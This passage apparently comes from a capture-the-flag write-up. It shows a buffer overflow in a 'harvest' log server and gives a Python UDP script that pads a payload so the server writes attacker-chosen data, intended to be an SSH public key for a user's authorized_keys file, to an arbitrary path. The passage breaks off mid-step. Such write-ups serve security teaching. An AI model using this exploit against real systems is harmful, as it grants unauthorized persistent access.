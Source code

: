 ```

oxdf@hacky$ sudo ./harvest server -i tun0 -l test.log
[*] Listening on interface tun0
[*] Successful handshake
[!] Suspicious activity. Packages have been logged.
[!] Suspicious activity. Packages have been logged.
[!] Suspicious activity. Packages have been logged.
[!] Suspicious activity. Packages have been logged.

```

And `overflow.log` exists full of “A”:

```

oxdf@hacky$ wc overflow.log 
    0     1 65372 overflow.log
oxdf@hacky$ head -c 100 overflow.log 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

```

#### Write File

My goal is to write an SSH public key to alex’s `authorized_keys` file, providing SSH access. I don’t really want all those “A”, so I’ll replace them with “\n”. I’ll also add in some dummy data to represent what I want to write:

```

import socket

SRV_ADDR = ("::1", 4444) # port doesn't matter
sock = socket.socket(socket.AF_INET6, socket.SOCK_DGRAM)
file_path = b"overflow.log"
data = b"this will be my SSH public key"
data += b"\n" * (65360 + 12 - len(data))
data += file_path
sock.sendto(data, SRV_ADDR)

```

I’ll delete the existing `overflow.log` and run this. The resulting file is missing data from the top:

```

oxdf@hacky$ head -3 overflow.log 
 my SSH public key

```

It’s 12 bytes. I’ll put those at the front:
